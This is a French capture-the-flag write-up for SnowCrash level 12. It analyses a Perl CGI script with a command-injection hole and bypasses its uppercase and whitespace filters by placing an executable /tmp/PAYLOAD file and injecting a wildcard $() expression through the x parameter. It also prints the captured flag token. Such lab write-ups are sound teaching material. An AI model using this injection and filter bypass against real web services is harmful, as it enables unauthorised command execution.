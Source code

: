 # LEVEL 12

### Reconnaissance

On tombe sur un fichier perl
```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Meme chose que le level04, un script perl qui est en ecoute sur le port 4646.
Ce script attend 2 paramètres : x et y
le paramètre y ne nous sert a rien, seul x va nous servir.


Cette ligne nous permet une injection de commande :
```
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```
les backsticks interprette le code, la difficulté de ce level est de contourné les 2 regex avant:

```
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
```

Le premier converti les lettres en majuscule.
Le second supprime les espaces.

### Exploitation

```
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/PAYLOAD && chmod +x /tmp/PAYLOAD
```

On creer un fichier /tmp/PAYLOAD qu'on rend exécutable. Il ne nous reste plus qu'a faire notre injection:

```
192.168.56.105:4646/?x='$(/*/payload)'
OU
192.168.56.105:4646/?x='$(/*/PAYLOAD)'
```

le wilcard nous permet de contourné le filtre qui mettrait en majuscule /tmp
On a créer notre fichier en majuscule, le regex va nous le convertir tous seul.
$() nous permet d'executé la commande.

```
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```


